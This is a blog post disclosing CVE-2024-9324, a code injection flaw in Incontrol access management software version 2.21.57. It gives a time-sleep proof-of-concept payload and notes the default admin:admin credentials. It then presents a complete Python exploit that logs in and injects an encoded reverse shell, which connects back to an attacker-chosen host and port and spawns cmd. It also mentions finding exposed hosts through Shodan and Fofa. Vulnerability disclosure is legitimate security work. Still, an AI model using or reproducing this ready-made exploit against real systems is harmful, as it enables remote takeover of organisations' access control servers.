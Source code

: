 ```yaml
---
layout: post
title: "CVE-2024-9324 Exploitation Chain: Web User to NT AUTHORITY SYSTEM "
description: "Step by step exploitation for the Code Injection vulnerability that I found."
date:   2024-11-06 09:01:35 +0300
image:  '/images/713.jpg'
tags:   [exploitation, cve]
---
```


Hello everyone! Today I will present in detail the exploitation of a Code Injection vulnerability that I recently found in the Incontrol software, version 2.21.57.

#### What is Incontrol?
Incontrol is a software mainly used for access management in companies and is more present in internal networks, although it is possible to find exposed hosts on the internet through tools such as Shodan and Fofa.

### Proof of Concept
To exploit this vulnerability, it is necessary to have a user with permission to generate reports. In addition, the software uses, by default, administrator credentials such as "admin:admin", which makes it easier to identify hosts configured with these default credentials.

![]({{site.baseurl}}/images/image.png)

With a successful login to the application, when navigating through the menu and accessing the "Event Reports" option, it is possible to capture the vulnerable request when trying to generate a PDF report.

![]({{site.baseurl}}/images/image2.png)

![]({{site.baseurl}}/images/image3.png)

Using a payload that executes Python code to perform a 10-second time sleep, we observed that the application responded as expected, returning the response in approximately 11 seconds.

{% highlight py %}
    eval(compile('for x in range(1):\n import time\n time.sleep(10)','a','single'))
{% endhighlight %}

![]({{site.baseurl}}/images/image4.png)

![]({{site.baseurl}}/images/image5.png)


### Exploit
To make the exploit easier, I developed an exploit in Python that automates the entire process and allows you to obtain a reverse shell.


{% highlight py %}

    #!/usr/bin/python3

    import argparse
    import requests
    import warnings
    warnings.filterwarnings("ignore")


    proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
    r = requests.session()

    def login(target, user, password):
        burp0_url = target + ":4441/v1/auth/"
        burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0", "Accept": "application/json, text/plain, */*", "Accept-Language": "pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate, br", "Content-Type": "application/json", "Origin": f"{target}:4445", "Referer": f"{target}:4445/", "Sec-Fetch-Dest": "empty", "Sec-Fetch-Mode": "cors", "Sec-Fetch-Site": "same-site", "Priority": "u=0", "Te": "trailers", "Connection": "keep-alive"}
        burp0_json={"password": f"{user}", "username": f"{password}"}
        response = requests.post(burp0_url, headers=burp0_headers, json=burp0_json, verify=False)
        # Verifica se a resposta foi bem-sucedida
        if response.status_code == 200:
            # Obtém o token do JSON da resposta
            token = response.json().get("token")
            if token:
                return token
            else:
                print("[X] - Token Extraction Error!")
                return None
        else:
            print(f"[X] - Login Failed: {response.status_code}")
            return None
        
    def exploit(target, token, lhost, lport):
        burp0_url = target + f":4441/v1/evento/relatorio?page=1&limit=10000&fields=eval(compile('for%20x%20in%20range(1)%3a%5cn%20import%20os%2csocket%2csubprocess%2cthreading%5cn%20def%20s2p(s%2c%20p)%3a%5cn%20%20%20%20while%20True%3a%5cn%20%20%20%20%20%20%20%20data%20%3d%20s.recv(1024)%5cn%20%20%20%20%20%20%20%20if%20len(data)%20%3e%200%3a%5cn%20%20%20%20%20%20%20%20%20%20%20%20p.stdin.write(data)%5cn%20%20%20%20%20%20%20%20%20%20%20%20p.stdin.flush()%5cn%20def%20p2s(s%2c%20p)%3a%5cn%20%20%20%20while%20True%3a%5cn%20%20%20%20%20%20%20%20s.send(p.stdout.read(1))%5cn%20s%20%3d%20socket.socket(socket.AF_INET%2c%20socket.SOCK_STREAM)%5cn%20s.connect((%22{lhost}%22%2c{lport}))%5cn%20p%20%3d%20subprocess.Popen(%5b%22cmd%22%5d%2c%20stdout%3dsubprocess.PIPE%2c%20stderr%3dsubprocess.STDOUT%2c%20stdin%3dsubprocess.PIPE)%5cn%20s2p_thread%20%3d%20threading.Thread(target%3ds2p%2c%20args%3d%5bs%2c%20p%5d)%5cn%20s2p_thread.daemon%20%3d%20True%5cn%20s2p_thread.start()%5cn%20p2s_thread%20%3d%20threading.Thread(target%3dp2s%2c%20args%3d%5bs%2c%20p%5d)%5cn%20p2s_thread.daemon%20%3d%20True%5cn%20p2s_thread.start()%5cn%20try%3a%5cn%20%20%20%20p.wait()%5cn%20except%20KeyboardInterrupt%3a%5cn%20%20%20%20s.close()','a','single'))"
        burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0", "Accept": "application/json, text/plain, */*", "Accept-Language": "pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate, br", "Authorization": f"JWT {token}", "Origin": "https://localhost:4445", "Referer": "https://localhost:4445/", "Sec-Fetch-Dest": "empty", "Sec-Fetch-Mode": "cors", "Sec-Fetch-Site": "same-site", "Te": "trailers", "Connection": "keep-alive"}
        response = requests.get(burp0_url, headers=burp0_headers, verify=False)
        

    def main():
        # Parse Arguments
        parser = argparse.ArgumentParser()
        parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
        parser.add_argument('-lh', '--lhost', help='Listening IP address for reverse shell', required=True)
        parser.add_argument('-lp', '--lport', help='Listening port for reverse shell', required=True)
        parser.add_argument('-u', '--username', help='Username to target', required=True)
        parser.add_argument('-p', '--password', help='Password value to set', required=True)
        args = parser.parse_args()
        print("[!] Running the exploit for CVE-2024-9324 [!]")
        print("[!] You need to run nc -nlvp manually [!]")
        print("[!] Usage example: python3 exploit.py --target https://TARGET -lh LHOST -lp 8080 -u admin -p admin [!]")

        print("[+] Logging in... [+]")
        token = login(args.target, args.username, args.password)
        
        print("[+] Sending shell! [+]")

        exploit(args.target, token, args.lhost, args.lport)

    if __name__ == '__main__':
        main()
{% endhighlight %}

![]({{site.baseurl}}/images/image6.png)


![]({{site.baseurl}}/images/image7.png)

That's it for today guys, I hope you enjoyed this Python Code Injection vulnerability and don't forget, keep hacking.